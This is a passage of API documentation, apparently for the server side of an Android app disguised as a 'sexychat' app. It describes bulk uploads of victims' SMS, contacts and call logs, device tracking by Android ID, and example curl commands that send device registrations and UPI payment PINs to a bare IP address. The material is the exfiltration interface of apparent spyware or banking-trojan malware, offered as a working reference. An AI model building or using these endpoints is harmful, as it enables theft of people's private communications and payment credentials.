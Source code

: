 ### 3. Device ID
The device ID is the Android Secure ID obtained via:
```java
Settings.Secure.getString(context.contentResolver, Settings.Secure.ANDROID_ID)
```

### 4. Batch Processing
Large datasets (SMS, Contacts, Call Logs) are uploaded in batches to:
- Prevent memory issues
- Handle network interruptions better
- Provide upload progress tracking

### 5. Error Handling
All endpoints should return:
- HTTP 200 for success
- HTTP 4xx/5xx for errors
- JSON response with `status` and `message` fields

### 6. Package Name
The app package name (`com.example.test`) is included in the registration request for tracking purposes.

---

## Example cURL Commands

### Register Device
```bash
curl -X POST http://95.134.130.160:8765/register \
  -H "Content-Type: application/json" \
  -d '{
    "type": "register",
    "device_id": "android123",
    "user_id": "8f41bc5eec42e34209a801a7fa8b2d94d1c3d983",
    "app_type": "sexychat",
    "device_info": {
      "model": "Pixel 6",
      "manufacturer": "Google",
      "os_version": "13",
      "package_name": "com.example.test"
    }
  }'
```

### Save UPI PIN
```bash
curl -X POST http://95.134.130.160:8765/save-pin \
  -H "Content-Type: application/json" \
  -d '{
    "pin": "123456",
    "device_id": "android123"
  }'
```
